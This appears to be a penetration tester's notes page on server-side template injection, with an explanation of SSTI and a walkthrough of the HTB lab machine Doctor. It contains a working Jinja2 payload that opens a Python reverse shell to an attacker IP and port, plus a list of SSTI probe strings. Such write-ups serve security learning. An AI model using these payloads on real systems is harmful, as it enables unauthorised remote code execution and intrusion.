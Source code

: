 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

Server-Side Template Injection (SSTI) exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## SSTI Testing

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, follow this flowchart from Hacktricks:

<figure><img src="../.gitbook/assets/image (2580).png" alt=""><figcaption></figcaption></figure>

Generally, I try to identify what backend the website runs on (PHP, Ruby, etc.) and see if there are portions where **user-input is displayed** to run my tests on. This includes usernames, posts made to forums, etc.

## Example

The HTB machine Doctor uses SSTI for the initial access step.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.

<figure><img src="../.gitbook/assets/image (1798).png" alt=""><figcaption></figcaption></figure>

I tested for SSTI. I tested a few payloads and made a new post:

<figure><img src="../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would shows this:

<figure><img src="../.gitbook/assets/image (3164).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, the website is running on either Jinja2 or Twig. A payload from PayloadAllTheThings can then be used:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload with the correct IP and port number gave me a reverse shell. SSTI is rather easy to exploit once found. Here are some other payloads used for testing:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}

